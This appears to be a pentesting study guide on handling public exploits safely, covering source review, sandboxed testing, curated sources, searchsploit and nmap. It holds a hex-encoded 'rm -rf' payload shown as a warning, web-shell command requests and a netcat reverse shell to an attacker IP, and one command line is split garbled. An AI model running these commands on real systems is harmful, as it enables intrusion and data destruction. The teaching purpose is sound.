 # Exploit Safety — Read Before Running

Always **read the exploit source code** before executing anything; even something that looks like shellcode can be a disguised destructive command. Look specifically for **privilege checks** (e.g. `geteuid()`), suspicious system calls, or obvious destructive strings such as `rm -rf`. If you see anything alarming, do not run it. A quick way to inspect small pieces is to print suspicious byte arrays in a REPL to reveal their ASCII meaning, for example:

```python
jmpcode = b"\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26"

print(jmpcode.decode('latin1'))
```

# Test in Isolated Environments

Execute exploits **only** in isolated VMs or sandboxes that have clean snapshots you can revert immediately. Always snapshot _before_ running and restore after. To create and revert snapshots use your hypervisor (VirtualBox/VMware/Libvirt) or cloud images; **never** test on your Kali host or any production network. Make monitoring easier by capturing network traffic and filesystem changes (e.g. `tcpdump` and `inotifywait`) while testing.

# Prefer Curated Sources

Prefer vetted repositories such as **Exploit-DB** and **Packet Storm** because they often review submissions. Treat GitHub as untrusted by default — review code thoroughly before use. When using a curated source, check the **verified** flag and read any included notes or comments on the exploit page.

# Offline Tools & Example Commands

Use offline tools to search and inspect exploits locally. Install or update the local Exploit-DB package and use `searchsploit` to find and copy exploits for local review:

```bash
sudo apt update && sudo apt install exploitdb
searchsploit php webdav windows 
searchsploit -m 42031           # copy exploit by EDB-ID or path into cwd 
searchsploit -p 48537          # show full path to exploit
```

Use `nmap` script help to read NSE script docs before running them:

```bash
nmap --script-help=clamav-exec.nse g
rep -i Exploits /usr/share/nmap/scripts/*.nse
```

When you need to sanity-check web-shells or remote command execution, use basic `curl` checks and URL encoding for parameters:

```bash
curl "http://target/uploads/backdoor.php?cmd=whoami" 
curl --data-urlencode "cmd=which nc" "http://target/uploads/backdoor.php"
```

To get a reverse shell with `nc` from a web shell (only in-scope targets), set a listener on your machine and invoke `nc` on target:

```bash
nc -lvnp 6666

# on target via webshell: 
nc -nv <your-ip> 6666 -e /bin/bash
```

Always verify the commands you send to remote shells will not escalate risk unnecessarily.
